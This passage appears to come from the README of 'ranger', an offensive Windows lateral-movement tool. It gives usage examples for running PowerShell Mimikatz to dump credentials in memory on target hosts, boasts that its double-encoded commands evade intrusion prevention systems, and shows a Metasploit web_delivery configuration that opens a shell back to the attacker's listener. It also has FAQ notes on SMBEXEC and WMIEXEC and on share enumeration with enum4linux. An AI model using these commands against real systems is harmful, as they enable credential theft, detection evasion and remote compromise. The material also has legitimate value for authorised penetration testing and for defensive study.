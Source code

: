  
### Intrusion Protection Systems (IPS):
* Mimikatz, Downloader and Executor use PowerShell memory injection by calling other services and protocols.
* The commands are double encoded and bypass current IPS solutions (even next-gen) unless specifically tuned to catch these attacks.  
* ATEXEC is the only one that currently lands on disk and does not encode, I still have some rewriting to do still.

## Invoker Attacks:
* Executes the PowerShell Mimikatz on the target box
* Defaults the function / cmdlet to Invoke-Mimikatz, which can be changed with `-f`
* Defaults the arguements to DumpCreds, which can be changed with `-a`
* Invoker requires both the `-f` and `-a` option if you want to change the command, to avoid using the `-a` you can use Executor
* EXAMPLE: `-x "im.ps1" -f "Invoke-Mimikatz" -a "DumpCreds"`

### Executor Attacks:
* Allows you to run binaries and or PowerShell scripts on target boxes
* Must be in the current directory the script or binary is located at on your attack box
* The script or binary will be injected directly into memory
* Requires the payload (binary or script) to be identified with `-x`
* Requires the function / cmdlet / arguements to be defined by `-f`
* Optionally you can further define the command with -a if the tool requires it
* EXAMPLE 1: `-x "im.ps1" -f "Invoke-Mimikatz" -a "DumpCreds"`
* EXAMPLE 2: `-x "im.ps1" -f "Invoke-Mimikatz -DumpCreds`

### Downloader (web_delivery) attacks:
* To setup Metasploit for the web_delivery exploit start-up Metasploit and configure the exploit to meet the following conditions.
```
use exploit/multi/script/web_delivery
set targets 2
set payload <choose your desired payload>
set lhost <your IP>
set lport <port for the shell make sure it is not a conflicting port>
set URIPATH /
set SRVPORT <the same as what is set by the -r option in ranger, defaults to 8888>
exploit -j
```
## FAQ

### Access Deined Errors for SMBEXEC and WMIEXEC
I'm getting access denied errors in Windows machines that are part of a WORKGROUP.

When not part of a domain, Windows by default does not have any administrative shares.  SMBEXEC relies on shares being enabled.  Additionally, WMIC isn't enabled on WORKGROUP machines.  SMBEXEC and WMIEXEC are made to target protocols enabled on domain systems.  While its certainly possible to enable these functions on a WORKGROUP system, note that you are introducing vulnerable protocols (after all, that's what this tool is made to attack).  Enabling these features on your primary home system that your significant other uses for Facebook as well is probably not the best idea.  
* Make sure this is a test box you own.  You can force the shares to be enabled by following the instructions here: http://www.wintips.org/how-to-enable-admin-shares-windows-7/
* If you want to determine what shares are exposed and then target them, you can use a tool like `enum4linux` and then use the `--share share_name` argument in ranger to try and execute SMBEXEC.
